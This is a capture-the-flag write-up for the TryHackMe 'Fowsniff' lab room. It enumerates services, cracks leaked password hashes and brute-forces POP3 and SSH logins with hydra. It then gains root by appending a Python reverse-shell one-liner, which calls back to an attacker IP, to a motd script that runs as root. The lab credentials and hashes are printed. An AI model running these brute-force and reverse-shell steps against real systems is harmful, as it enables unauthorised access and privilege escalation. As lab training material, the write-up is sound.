 # Fowsniff - THM Room

##### Gnome787 | 22 SEP 22

##### Creds

POP3 - seina:scoobydoo2
SSH - baksteen:S1ck3nBluff+secureshell

## Enum

**NMAP**
```bash
(root💀kali)-[~/THM/CTF/Fowsniff]
└─# nmap -sC -sV 10.10.126.157 -oN nmap/initial                           
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-21 23:36 EDT
```

Open Ports
* 22/tcp SSH
* 80/tcp HTTP
* 110/tcp POP3
* 143/tcp IMAP

**Gobuster**
```bash
┌──(root💀kali)-[~/THM/CTF/Fowsniff]
└─# gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.126.157                    
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
```

Scan uncovers a couple interesting directories:
* /robots.txt
* /security.txt

![securitydir.png](../../../_resources/securitydir.png)

**143 IMAP**
I started off by trying to access the imap with netcat to no avail. 

```bash
netcat 10.10.126.157 143
```

**/security.txt**
This shows the company has recently been hacked. I decided to chuck that username into google and got some interesting results. I found a number of hashes that we can attempt to crack.

```
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4:
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
```

Cracked
```
mauer:mailcall
mustikka:bilbo101
tegel:apples01
baksteen:skyler22
seina:scoobydoo2
stone:
mursten:carp4ever
parede:orlando12
sciana:07011972
```

**110 POP3**
Given the usernames and passwords we have, I figured it was worth a bruteforce attempt against thr POP3 service with the credentials. Using hydra we can achieve this:
```bash
──(root💀kali)-[~/THM/CTF/Fowsniff]
└─# hydra -L usernames.txt -P passwords.txt -f 10.10.126.157 pop3 -v
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
```
From this we get a successful login with the following credentials:
```bash
[110][pop3] host: 10.10.126.157   login: seina   password: scoobydoo2
```
Using these credentials we can attempt to login to the POP3 server with **telnet**:
```bash
┌──(root💀kali)-[~/THM/CTF/Fowsniff]
└─# telnet 10.10.126.157 110                                                                                                                                                                                                             1 ⨯
Trying 10.10.126.157...
Connected to 10.10.126.157.
Escape character is '^]'.
+OK Welcome to the Fowsniff Corporate Mail Server!
user seina
+OK
pass scoobydoo2
+OK Logged in.
```
We then run the **list** command to see whats on the server:
```bash
list
+OK 2 messages:
1 1622
2 1280
```
We can then look at these messages using the command **retr**: The first email contains a tempoary password that is being used for ssh **S1ck3nBluff+secureshell**.

**22 SSH**
Now that we know the company has used a tempoary password for all accounts. we can use that password along with our usernames list from before and try and bruteforce an ssh connection:
```bash
hydra -L usernames.txt -p S1ck3nBluff+secureshell -f 10.10.126.157 ssh -v 
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-22 00:45:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:8/p:1), ~1 try per task
[DATA] attacking ssh://10.10.126.157:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://mauer@10.10.126.157:22
[INFO] Successful, password authentication is supported by ssh://10.10.126.157:22
[22][ssh] host: 10.10.126.157   login: baksteen   password: S1ck3nBluff+secureshell
```
And now we have ssh access with the account **baksteen**. 

![sshaccess.png](../../../_resources/sshaccess.png)

**System Enumeration**
After gaining ssh access, I started having a look around, testing sudo, seeing what the user can access which turns out not to be very much. I then began to see what perms our account has. He is apart of the **users** group so we can see what they can do or what files/directories they own. I had a look at the home directory and got very little:
```bash
baksteen@fowsniff:/$ find /home -group users
find: ‘/home/seina’: Permission denied
find: ‘/home/stone’: Permission denied
find: ‘/home/mustikka’: Permission denied
find: ‘/home/parede’: Permission denied
find: ‘/home/tegel’: Permission denied
/home/baksteen/.cache
/home/baksteen/.cache/motd.legal-displayed
/home/baksteen/Maildir
/home/baksteen/Maildir/tmp
...........REDACTED...........
```
From there I had a look at the **/opt** directory as this is often a good place to find scripts/tools you can use:
```bash
baksteen@fowsniff:/$ find /opt -group users
/opt/cube/cube.sh
find: ‘/opt/chkrootkit’: Permission denied
find: ‘/opt/rkhunter’: Permission denied
find: ‘/opt/clamxav’: Permission denied
```
The **cube.sh** file looks interesting, and our users group seems to have **rwx** permissions on it. This means we can add a malicious payload to it and then execute that payload:
```bash
baksteen@fowsniff:/opt/cube$ ls -l
total 4
-rw-rwxr-- 1 parede users 851 Mar 11  2018 cube.sh
```
By adding the following shell to our **cube.sh** file we can gain a reverse shell using this script:
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.24.252",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Since we already have an ssh connection, our goal with this shell is to run it as root so that the shell we get is a root shell. Fortunately for us, our shell script will be run by root once we exit and rejoin the server as it is printed in the motd everytime someone joins. So all we need to do is exit, and then login using ssh, ensuring we have a netcat listener on our port.

![rootsh.png](../../../_resources/rootsh.png)

### Things learned

* Telnet to exploit a POP3 server
* Enumerating a users privileges as well as the privileges of the groups they are a member of. The following commands were extremely useful in that regard:
```bash
# Find out the users groups with either
id
# or 
groups
# List the groups on the box
cat /etc/group
# Find which files/directories the user has access to
find / -group <GROUPNAME>
# Narrow it down to specific directories where is likely they will have something of use, examples include /opt and /home.
find /opt -group <GROUPNAME>
```
* Any files that can run code such as **.sh** are very good candidates for priv esc or further exploitation of the machine.
* Just because a script isn't executed as root, doesn't mean it can't be. Look for ways to have other scripts or programs run your payload as a root user.
